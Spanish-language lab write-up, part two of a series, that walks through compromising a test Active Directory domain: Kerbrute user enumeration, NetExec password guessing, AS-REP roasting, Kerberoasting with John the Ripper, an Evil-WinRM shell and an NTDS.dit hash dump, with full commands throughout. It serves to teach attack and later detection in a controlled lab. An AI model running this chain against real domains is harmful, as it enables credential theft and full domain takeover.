Tras haber desplegado nuestro laboratorio y configurado las vulnerabilidades en Windows Server 2022 en la entrega anterior, entramos ahora en la fase operativa. En este segundo post, nos pondremos el "sombrero de atacante" para demostrar cómo una serie de configuraciones débiles en el protocolo Kerberos pueden llevar al compromiso total de un dominio.

**Esta es la segunda parte de nuestra serie técnica sobre seguridad en Active Directory:**
> **Hoja de Ruta del Proyecto:**
- **(1/3) - Setup, Vulnerabilidades y Telemetría:** El Escenario: Despliegue del laboratorio y configuración de cuentas vulnerables (Windows Server 2022).
- **(2/3) - Explotación y Cracking (Este post):** Ejecución de la cadena de ataque, desde el reconocimiento inicial hasta el control de Domain Admin.
- **(3/3) - Detección y Análisis de Logs:** La Defensa: Análisis de logs y patrones de ataque para su detección.
{: .prompt-info }

**El Objetivo de hoy: De "Zero" a "Domain Admin"**
Asumiremos un escenario de **Caja Negra (Black Box)**, donde solo contamos con una IP dentro de la red. A través de este ejercicio, validaremos la efectividad de los ataques de abuso de protocolo que mencionamos anteriormente.


> **Recordatorio de Seguridad:** Este laboratorio se realiza en un entorno controlado. La meta es entender la mentalidad del atacante para construir defensas más robustas en la parte (3/3).
{: .prompt-tip }

## Fase 1 - Entorno de ataque (Kali Linux)

### 1. Descarga maquina virtual - kali linux
A diferencia de una instalación estándar, Kali Linux ofrece imágenes preconfiguradas para plataformas de virtualización. Esto nos ahorra el proceso de instalación del sistema operativo y asegura que los VMware Tools funcionen correctamente desde el primer segundo.

- **Enlace oficial:** [Kali Linux Virtual Machines](https://www.kali.org/get-kali/#kali-virtual-machines)

Seleccionamos la plataforma y empezara la descarga automaticamente.



### 2. Configuración de la Máquina Virtual (VMware)
Al utilizar una máquina virtual preconstruida, no necesitamos crear una nueva desde cero. Simplemente debemos "importar" la configuración existente.

1. **Extracción:** Descomprime el archivo .zip descargado en una carpeta permanente (evita la carpeta de Descargas).

2. **Importación:** Haz doble clic en el archivo con extensión .vmx. Esto abrirá VMware y cargará la máquina automáticamente en tu biblioteca.

<div class="row justify-content-center align-items-center">
  <div class="col-md-5 text-center">
    
  </div>
  <div class="col-md-5 text-center">
    
  </div>
</div>

1. **Hardware y Red (Importante):** 
Antes de encenderla, debemos ajustar los recursos para garantizar la estabilidad del laboratorio:

   - **Memoria RAM:** Se recomiendan 4 GB. Es el punto de equilibrio ideal para ejecutar herramientas de escaneo y explotación sin ralentizar el sistema anfitrión.
 
   - **Adaptador de Red (NAT):**  Configuraremos la red en modo NAT.

> **¿Por qué NAT?** Esta configuración permite que las máquinas del laboratorio tengan salida a Internet (para descargar herramientas) sin necesidad de ocupar IPs en tu router físico.
{: .prompt-info }

{: width="400" }

### 3. Inicio de Sesión Inicial
Iniciamos la máquina virtual. Por defecto, las credenciales en las imágenes de Kali son:

- **Usuario:** kali
- **Contraseña:** kali

<div class="row justify-content-center align-items-center">
  <div class="col-md-5 text-center">
    
  </div>
  <div class="col-md-5 text-center">
    
  </div>
</div>

### 4. Configuraciónes básicas
Una vez dentro, es fundamental actualizar el sistema y personalizar las credenciales por seguridad. Abre una terminal (`Ctrl+Alt+T`) y ejecuta:

```bash
# 1. Cambiar la contraseña por defecto
passwd kali

# 2. Actualizar los repositorios y el sistema
sudo apt update && sudo apt upgrade -y
```

> **Nota:** Si tu teclado no coincide con la distribución de teclas, puedes cambiarlo rápidamente con el comando `setxkbmap es` (para español) o a través del menú Settings > Keyboard.
{: .prompt-info }

## Fase 2 - Enumeración y Reconocimiento de Activos

En esta fase solo realizo un escaneo basico de puertos para que se pueda entender como se podria hacer. sin embargo en una auditoria se realizaria un escaneo exhaustivo de cada puerto detectando sus versiones y servicios a los cuales luego se verificaria para ver si son vulnerables sus versiones a algun tipo de vulnerabilidad.


### 1. Detectando puertos abiertos (nmap)
Se realiza un escaneo básico de los 1000 puertos mas comunes.
```bash
# -sS: TCP SYN Scan (sigiloso y rápido)
# -Pn: Omitir el descubrimiento de host (asumimos que está vivo)
# -n: No realizar resolución DNS para acelerar el proceso
# --open: Mostrar solo puertos con estado abierto
nmap -sS -Pn -n --open 192.168.122.10
```


> Análisis de resultados: La presencia de los puertos **88 (Kerberos)** y **389 (LDAP)** es un indicador inequívoco de que estamos ante un Controlador de Dominio (DC) de Active Directory.
{: .prompt-info }

### 2. Identificación de Versiones y Scripts de Reconocimiento (nmap)

Ahora que sabemos qué puertos están abiertos, realizaremos un escaneo específico sobre los servicios que nos interesan para el ataque a Kerberos, extrayendo versiones y scripts por defecto.

```bash
# -sV: Determinar versión de los servicios
# -sC: Ejecutar scripts por defecto de Nmap (NSE)
# -p: Especificamos solo los puertos de interés
nmap -sVC -p88,389,445,5985 192.168.122.10
```



Aparte de los servicios de autenticación, hemos identificado otros puertos críticos para nuestra intrusión:

- **Puerto 445 (SMB):** Fundamental para enumerar recursos compartidos, buscar archivos con información sensible y, posteriormente, validar credenciales o realizar ataques de Pass-the-Hash.

- **Puerto 5985/5986 (WinRM):** Es el servicio que nos permitirá obtener una consola interactiva de PowerShell mediante herramientas como evil-winrm una vez que obtengamos credenciales válidas.

Al analizar la respuesta de LDAP, confirmamos que el nombre del dominio es stoicus.lab. Este dato es fundamental, ya que Kerberos depende estrictamente de nombres de dominio y no de direcciones IP.

### 3. Configuración de Resolución Local (`/etc/hosts`)
Para que nuestras herramientas de ataque puedan interactuar con el dominio correctamente, debemos indicar a nuestro sistema Kali cómo resolver el nombre **stoicus.lab**.

```bash
# Editamos archivo
sudo nano /etc/hosts

# Añadimos la siguiente línea al final del archivo
192.168.122.10 stoicus.lab
```

{: width="300" }

> **¿Por qué es necesario este paso?** El protocolo Kerberos utiliza nombres de servicio (SPN) para la autenticación. Si intentamos atacar el servicio usando solo la IP, muchas herramientas fallarán al no poder validar el ticket contra el dominio correspondiente.
{: .prompt-tip }

## Fase 3 - Ataque de diccionarios - Usuarios y Contraseñas

En esta etapa, asumimos un escenario de "Caja Negra" (Black Box): no disponemos de credenciales ni de una lista de usuarios inicial. En entornos reales, buscaríamos usuarios en fuentes públicas (LinkedIn, web corporativa) o mediante servicios mal configurados como SMB Null Sessions o consultas LDAP anónimas.

Al no tener estas vías, optaremos por un ataque de enumeración por diccionario.

### 1. Obteniendo listas de usernames y passwords
Para tener éxito, necesitamos diccionarios de calidad. SecLists es el estándar de la industria, ya que recopila nombres de usuario y contraseñas comunes detectados en brechas de seguridad reales.

```bash
# Clonar herramientas de generación de nombres (opcional)
git clone https://github.com/urbanadventurer/username-anarchy.git

# Instalación de SecLists (colección masiva de diccionarios)
sudo apt -y install seclists
```

También instalaremos Kerbrute, una herramienta extremadamente rápida y eficiente para enumerar usuarios de Active Directory mediante el protocolo Kerberos.

```bash
# Instalación de Kerbrute mediante Go
sudo apt install golang-go -y
go install github.com/ropnop/kerbrute@latest
```

> **Tip:** El binario suele guardarse en `~/go/bin/kerbrute` 
{: .prompt-tip }

### 2. Ataque de diccionario - Usernames
Utilizaremos el módulo `userenum` de Kerbrute. A diferencia de otros métodos, este no genera fallos de inicio de sesión masivos en los logs de eventos de Windows (Event ID 4625), sino que utiliza solicitudes TGT para verificar si un nombre de usuario existe.

```bash
/home/kali/go/bin/kerbrute  userenum --dc 192.168.122.10 -d stoicus.lab username-anarchy/names/forums/top-forum-names.txt 
```



### 3. Ataque de diccionario - Passwords (NetExec)
Con una lista de usuarios potenciales identificada (por ejemplo, el usuario scott), procederemos a realizar un ataque de adivinación de contraseñas utilizando NetExec (nxc) contra el servicio SMB.

> **Importante:** Usaremos una lista de contraseñas común y breve para evitar el bloqueo de cuentas (**Account Lockout Policy**).
{: .prompt-warning }

```bash
nxc smb 192.168.122.10 -u scott -p /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt --ignore-pw-decoding | grep -v "\[-\]"
```



Análisis del hallazgo: A pesar de que la contraseña `AR#Admin#` parece compleja a simple vista (uso de mayúsculas, números y símbolos), su presencia en un diccionario de "Default Credentials" demuestra que es una combinación predecible y poco segura.

### 4. Validando credencial
Una vez obtenida la contraseña, realizamos una validación final para comprobar el alcance de nuestro acceso. En herramientas como NetExec, la diferencia entre una cuenta de usuario estándar y una de administrador es visualmente clave:

```bash
nxc smb 192.168.122.10 -u scott -p 'AR#Admin#'
```



- **Símbolo `(+)`** : Indica que las credenciales son válidas y hemos logrado autenticarnos con éxito.

- **Símbolo `Pwn3d!`** : Si apareciera este texto, significaría que el usuario tiene privilegios administrativos sobre la máquina (acceso de escritura en ADMIN$).

> En este caso, el usuario scott es un usuario ordinario. No tenemos permisos de administrador local, pero estas credenciales son suficientes para empezar a enumerar el Active Directory desde dentro y buscar vectores de escalada de privilegios.
{: .prompt-info }

### 5. Enumeración de usuarios

Ahora que tenemos un acceso, podemos utilizar la cuenta de `scott` para extraer información detallada del resto de usuarios y sus atributos (como descripciones o fechas de último login).

```bash
# Listar todos los usuarios del dominio y sus descripciones
nxc smb 192.168.122.10 -u scott -p 'AR#Admin#' --users
```



Se guardan los usuarios obtenidos en un archivo llamado `users`

### 6. Identificación de Objetivos de Alto Valor

En esta fase, nuestro objetivo es escalar privilegios. Investigamos quiénes pertenecen al grupo **Domain Admins**.

Observamos un usuario llamado `sql_svc` (SQL Service). Los usuarios de servicio suelen ser objetivos críticos porque a menudo tienen configuraciones de Kerberos vulnerables.

```bash
nxc ldap  192.168.122.10 -u scott -p 'AR#Admin#'  --groups "Domain Admins"
```


## Fase 4 - Explotación de AS-REP Roasting
El ataque AS-REP Roasting se centra en cuentas de usuario que no requieren preautenticación de Kerberos. Normalmente, cuando un usuario solicita un ticket (AS-REQ), debe cifrar una marca de tiempo con su contraseña para demostrar quién es. Si la preautenticación está desactivada, el Controlador de Dominio enviará un **AS-REP** (una respuesta) que contiene una parte cifrada con la clave del usuario.

Este tráfico puede ser capturado y crackeado fuera de línea para obtener la contraseña en texto plano.

### 1. AS-REP Roasting con Credenciales (Vía NetExec)

Una vez que tenemos una cuenta válida (como la de scott obtenida anteriormente), es mucho más eficiente auditar todo el dominio de una sola vez. Utilizaremos NetExec para identificar automáticamente qué cuentas son vulnerables y extraer sus hashes.

```bash
nxc ldap  192.168.122.10 -u scott -p 'AR#Admin#'  --asreproast ASREPROAST
```




### 2. AS-REP Roasting sin Credenciales (Vía Impacket)

Si no tuviéramos ninguna contraseña pero sí una lista de posibles nombres de usuario (como la que generamos en la Fase 3), podemos utilizar la herramienta `GetNPUsers` de la suite **Impacket**.

Este método es extremadamente útil en las fases iniciales de un test de penetración externo o interno sin privilegios.

```bash
# -no-pass: No requiere contraseña del atacante
# -usersfile: Archivo con la lista de usuarios a probar
# -outputfile: Guarda los hashes encontrados en un archivo
impacket-GetNPUsers -no-pass -usersfile users stoicus.lab/ -outputfile as-rep
```




### 3. Cracking del Hash AS-REP (`krb5asrep23$`)

Independientemente del método utilizado, el resultado es un hash tipo `krb5asrep23$`. Al ser un ataque offline, no corremos el riesgo de bloquear la cuenta del usuario ni de generar alertas en el SIEM por intentos fallidos de login.

Utilizaremos **John the Ripper** junto al diccionario `rockyou.txt`:

- Se obtiene la contraseña `!Q2w#E4r%T` del usuario `stephen`

```bash
# Crackear el hash obtenido por NXC
john ASREPROAST -w=/usr/share/wordlists/rockyou.txt

# Crackear el hash obtenido por GetNPUsers
john as-rep -w=/usr/share/wordlists/rockyou.txt 
```




> La contraseña obtenida es `!Q2w#E4r%T`. Aunque cumple visualmente con políticas de complejidad (mayúsculas, números y símbolos), su presencia en diccionarios la hace vulnerable. Esto suele ocurrir por la reutilización de credenciales filtradas en brechas de datos antiguas o por seguir patrones de teclado predecibles.
{: .prompt-tip }

> **Resultado del compromiso:** Ahora tenemos acceso a dos cuentas:
- **scott** : `AR#Admin#`
- **stephen** : `!Q2w#E4r%T`
{: .prompt-info }

## Fase 5 - Abuso de Tickets de Servicio (Kerberoasting)

### 1. Extracción de Tickets TGS (NetExec)
Utilizaremos las credenciales de `scott` (nuestro punto de apoyo inicial) para pedir los tickets de todos los servicios registrados en el dominio.

```bash
# --kerberoast: Solicita tickets TGS para todas las cuentas con SPN y los vuelca en formato Hashcat/John
nxc ldap  192.168.122.10 -u scott -p 'AR#Admin#'   --kerberoast KERBEROASTING
```



### 2. Cracking de Hashes TGS
El hash obtenido es del tipo `krb5tgs`. Al igual que en la fase anterior, el éxito depende de la robustez de la contraseña del usuario de servicio. En entornos reales, las cuentas de servicio como SQL, IIS o Backup suelen ser objetivos críticos.

```bash
john KERBEROASTING -w=/usr/share/wordlists/rockyou.txt
```


**Resultado:** Hemos obtenido la contraseña `Password!@#` para el usuario `svc_sql`.

### 3. Verificación de Privilegios Elevados
Anteriormente (en la Fase 3) identificamos que el usuario `svc_sql` pertenecía al grupo **Domain Admins**. Ahora que tenemos sus credenciales, vamos a validar su nivel de acceso sobre el Controlador de Dominio.

```bash
nxc ldap  192.168.122.10 -u svc_sql -p 'Password!@#'
```



> **`¡Pwn3d!`** : El hecho de que NetExec devuelva esta etiqueta significa que **el usuario tiene privilegios administrativos totales sobre el sistema**. Hemos pasado de un usuario sin permisos (`scott`) a tener el control total del dominio a través de una cuenta de servicio mal protegida.
{: .prompt-danger }

## Fase 6 - Privilege escalation
Dado que `svc_sql` tiene privilegios administrativos, podemos utilizar el protocolo **WinRM (Windows Remote Management)** para obtener una consola interactiva de PowerShell en el servidor objetivo.

### 1. Establecimiento de Sesión Remota (Evil-WinRM)

Utilizaremos **Evil-WinRM**, la herramienta predilecta para post-explotación en entornos Windows cuando se tienen credenciales válidas y el servicio WinRM está habilitado (puerto 5985/5986).

```bash
# -i: Dirección IP del objetivo
# -u: Usuario comprometido
# -p: Contraseña obtenida en la Fase 5
evil-winrm -i 192.168.122.10 -u svc_sql -p 'Password!@#' 
```



### 2. Verificando privilegios
Una vez dentro del sistema, es una práctica fundamental verificar no solo quiénes somos, sino qué privilegios específicos tiene nuestro token de seguridad. Esto es crucial porque, en ocasiones, un usuario puede ser administrador pero tener ciertos privilegios desactivados o restringidos por el UAC (User Account Control).

```bash
whoami /priv
```



> Como se observa en la captura anterior, al haber obtenido una sesión como Domain Admin, ahora poseemos la lista completa de privilegios críticos del sistema. La presencia de `SeBackupPrivilege`, `SeRestorePrivilege` o `SeTakeOwnershipPrivilege`. Estos permiten, entre otras cosas, realizar un volcado de la base de datos de Active Directory (**NTDS.dit**) para obtener los hashes de todos los usuarios del dominio.
{: .prompt-info }

## Fase 7 - Post-Explotación


### 1. Extracción de Secretos: Volcado de la NTDS.dit

El objetivo final de un atacante tras comprometer un Controlador de Dominio es obtener el archivo `ntds.dit`. Este archivo es la base de datos principal de Active Directory y contiene los hashes de contraseñas de todos los usuarios, equipos y servicios del dominio.

Utilizaremos **NetExec** con el módulo `--ntds` para realizar un volcado remoto de estos hashes utilizando el protocolo DRSUAPI.

```bash
nxc smb  192.168.122.10 -u svc_sql -p 'Password!@#' --ntds
```



> **Impacto:** Con este archivo, el atacante tiene persistencia total. Puede crackear cualquier contraseña o realizar ataques de Pass-the-Hash para personificar a cualquier usuario, incluyendo el Administrador del Dominio.
{: .prompt-danger }

## Conclusión

Este laboratorio demuestra que el compromiso total de un dominio no siempre requiere vulnerabilidades críticas de software (0-days); a menudo, la propia arquitectura de Active Directory y sus configuraciones heredadas son el vector más efectivo.

**Resumen del Ataque:**
- **Reconocimiento:** Identificación de puertos abiertos y del dominio `stoicus.lab`.
- **Foothold:** Acceso inicial mediante ataques de diccionario.
